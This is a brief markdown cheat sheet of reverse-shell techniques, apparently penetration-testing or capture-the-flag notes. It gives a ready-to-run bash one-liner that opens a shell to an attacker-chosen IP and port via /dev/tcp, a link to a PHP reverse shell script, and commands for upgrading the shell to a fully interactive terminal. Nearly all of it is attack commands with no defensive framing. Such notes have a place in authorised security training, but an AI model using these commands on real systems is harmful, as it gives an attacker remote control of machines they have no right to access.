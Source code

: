 # Reverse Shells - Examples

https://www.revshells.com/

## Bash

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm


## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash